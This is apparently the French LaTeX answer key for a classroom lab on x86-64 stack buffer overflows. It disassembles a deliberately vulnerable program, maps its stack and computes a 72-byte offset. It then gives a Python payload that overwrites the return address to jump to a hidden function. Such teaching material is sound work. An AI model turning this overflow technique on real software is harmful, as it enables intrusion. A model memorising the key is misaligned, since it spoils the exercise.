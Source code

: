 \documentclass[a4paper,11pt]{article}
\theoremstyle{plain}
\newtheorem{correction}{Correction}
\theoremstyle{definition}
\newtheorem{exercice}{Exercice}
\begin{document}
\begin{exercice}[Projet StackX64]
\begin{correction}

\textbf{1a)} Après compilation et exécution :
\begin{lstlisting}[style=GDBStyle]
$ gcc -fno-stack-protector -no-pie -z execstack -g stackx64.c -o stackx64
$ echo "AAAA" | ./stackx64
=== StackX64 - Vulnerable Program ===
[DEBUG] main() is at address:            0x401216
[DEBUG] secret_function() is at address:  0x4011d6
[DEBUG] vulnerable_function() is at:      0x4011f6
...
\end{lstlisting}

\textbf{1b)} Désassemblage de \texttt{vulnerable\_function} :
\begin{lstlisting}[style=GDBStyle]
(gdb) disassemble vulnerable_function
   ...
   0x00000000004011fa <+4>:  push   rbp
   0x00000000004011fb <+5>:  mov    rbp,rsp
   0x00000000004011fe <+8>:  sub    rsp,0x40
   ...
\end{lstlisting}
L'instruction \texttt{sub rsp, 0x40} réserve \textbf{64 octets} (0x40 = 64) pour les variables locales, ce qui correspond au \texttt{char buffer[64]}.

\textbf{1c)} Schéma de la pile :
\begin{lstlisting}[style=GDBStyle]
Adresse          Contenu                 Description
-----------      -----------------       -------------------
0x7fffffffde58   0x0000000000401247      Adresse de retour (vers main)
0x7fffffffde50   0x00007fffffffde70      RBP sauvegarde
0x7fffffffde4c   0x0000000000000000      \
0x7fffffffde48   0x0000000000000000       |
...              ...                      | buffer[64]
0x7fffffffde14   0x0000000000000000       |
0x7fffffffde10   0x4141414141414141      /  <-- debut du buffer
\end{lstlisting}

\textbf{1d)} Offset = taille du buffer + RBP sauvegardé = 64 + 8 = \textbf{72 octets}.

Vérification avec GDB : on envoie 72 \texttt{A} + 8 \texttt{B} et on vérifie que l'adresse de retour contient \texttt{0x4242424242424242} :
\begin{lstlisting}[style=GDBStyle]
(gdb) run < <(python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'B'*8)")
(gdb) x/gx $rbp+8
0x7fffffffde58: 0x4242424242424242
\end{lstlisting}

\textbf{1e)} L'adresse de \texttt{secret\_function} est \texttt{0x4011d6}. En little-endian :
\begin{lstlisting}[style=GDBStyle]
$ python3 -c "import sys; sys.stdout.buffer.write(b'A'*72 + b'\xd6\x11\x40\x00\x00\x00\x00\x00')" | ./stackx64
=== StackX64 - Vulnerable Program ===
...
=============================================
  SECRET FUNCTION REACHED!
  You successfully redirected execution!
=============================================
\end{lstlisting}


\end{correction}
\end{exercice}
\end{document}
